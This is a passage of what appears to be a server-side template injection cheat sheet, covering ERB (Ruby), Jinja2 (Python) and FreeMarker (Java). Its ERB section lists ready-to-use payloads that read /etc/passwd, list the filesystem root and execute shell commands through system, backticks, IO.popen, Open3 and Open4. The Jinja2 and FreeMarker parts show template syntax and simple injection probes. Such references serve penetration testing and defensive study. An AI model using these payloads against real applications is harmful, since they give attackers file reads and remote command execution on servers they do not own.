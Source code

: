 Exploitation:


```html
# file read
<%= File.open('/etc/passwd').read %>

# dir listing
<%= Dir.entries('/') %>
```

RCE's:

```html
<%= system('cat /etc/passwd') %>
<%= `ls /` %>
<%= IO.popen('ls /').readlines()  %>
<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>
<% require 'open4' %><% @a,@b,@c,@d=Open4.popen4('whoami') %><%= @c.readline()%>
```


### Jinja2 (Python)

Many Python Template engines are based on Jinja. It is Flask's default template engine and it is also used by Ansible, Trac, and Salt.

Unlike the Django Template engine, Jinja allows the calling of functions from the template.

Template syntax:

```html
# expression
{{ 7 * 7 }}  # prints 49
{{ obj.func('parameter') }}

# for loop
{%- for product in product_list %}
    {{ product }}, 
{%- endfor %}

# if-else
{% if not truthvalue %} 
  <b>I am conditional!</b> 
{% endif %}
```


* https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/


## FreeMarker (Java)

```html
${1+1}
#{3 * 3}
```
